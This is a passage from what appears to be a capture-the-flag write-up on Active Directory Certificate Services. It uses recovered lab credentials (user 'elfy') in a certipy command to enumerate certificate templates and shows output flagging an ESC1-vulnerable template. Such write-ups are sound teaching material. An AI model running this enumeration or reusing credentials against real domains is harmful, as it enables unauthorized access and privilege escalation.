 ```json hl_lines="2"
```

The secret contains a username (elfy) and a password (J4`ufC49/J4766). These can be used to connect to the AD server.<br>
Start by checking the server for vulnerabilities using ```certipy```.

```
certipy find -vulnerable -u elfy@10.0.0.53 -p J4\`ufC49/J4766
```

![Find Vulnerable](../img/objectives/active_directory/find_vulnerable.png)

Next, read the output file.

```json hl_lines="24"
{
  "Certificate Authorities": {
    "0": {
      "CA Name": "northpole-npdc01-CA",
      "DNS Name": "npdc01.northpole.local",
      "Certificate Subject": "CN=northpole-npdc01-CA, DC=northpole, DC=local",
      ...
    }
  },
  "Certificate Templates": {
    "0": {
      "Template Name": "NorthPoleUsers",
      "Display Name": "NorthPoleUsers",
      "Certificate Authorities": [
        "northpole-npdc01-CA"
      ],
      "Enabled": true,
      "Client Authentication": true,
      "Enrollment Agent": false,
      "Any Purpose": false,
      "Enrollee Supplies Subject": true,
      ...
      "[!] Vulnerabilities": {
        "ESC1": "'NORTHPOLE.LOCAL\\\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication"
      }
    }
  }
}
```
